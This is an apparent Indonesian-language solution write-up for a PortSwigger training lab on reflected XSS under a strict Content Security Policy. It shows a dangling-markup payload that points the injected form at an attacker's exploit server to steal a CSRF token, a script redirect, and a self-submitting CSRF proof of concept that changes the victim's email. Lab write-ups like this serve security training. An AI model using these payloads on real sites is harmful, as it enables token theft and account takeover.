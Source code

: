 ### Penjelasan Solusi untuk Lab: Reflected XSS dengan CSP Ketat dan Dangling Markup Attack

Lab ini memerlukan Anda untuk mengeksploitasi kerentanan **Reflected XSS** yang dibatasi oleh **Content Security Policy (CSP)**. Serangan bertujuan untuk:  
1. Mencuri token **CSRF** pengguna.  
2. Menggunakan token untuk mengubah email pengguna menjadi `hacker@evil-user.net`.  

---

### **Langkah-langkah Penyelesaian**

#### **1. Masuk ke Akun yang Disediakan**
- Masuk ke akun dengan kredensial:  
  - **Username:** `wiener`  
  - **Password:** `peter`  

#### **2. Identifikasi Kerentanan XSS**
- Pergi ke fungsi "Change Email".  
- Coba masukkan payload XSS di parameter email, misalnya:  
  ```html
  test
  ```
- Periksa apakah kode Anda terefleksi di halaman. Jika berhasil, Anda dapat mengeksploitasi celah ini.

---

#### **3. 
![image](https://github.com/user-attachments/assets/680d5788-671f-4970-8822-ab22e449e3c2)

---
mendapatkan csrf :
![image](https://github.com/user-attachments/assets/1fadda7e-b9f9-423f-832e-e5b918304aaf)

csrf:NHXdJ7n8Nwhi4Rcyeqe1Ttp1t3VdkC3c





payload:
https://0a1a00c40438878c80b4c774000a0011.web-security-academy.net/my-account?id=wiener&email=egi%22%3E%3C/form%3E%3Cform%20class=%22login_form%22%20name=%22myform%22%20action=%22https://%20exploit-0ac600cd0401876680dcc619015b0066.exploit-server.net/exploit%22%20method=%22GET%22%3E%3Cbutton%20class=%22button%22%20type=%22submit%22%3EClick%3C/button%3E

<script>
    location = 'https://0a65000704eb47a3818f987200ab0033.web-security-academy.net/my-account?email="></form>
    <form class="login_form" name="myform" action="https://exploit-0a32008204ab475d810397ff012e0075.exploit-server.net/exploit" method="GET">
        <button class="button" type="submit">Click</button>
    </form>';
</script>


<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a1a00c40438878c80b4c774000a0011.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker@evil-user.net" />
      <input type="hidden" name="csrf" value="NHXdJ7n8Nwhi4Rcyeqe1Ttp1t3VdkC3c" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>




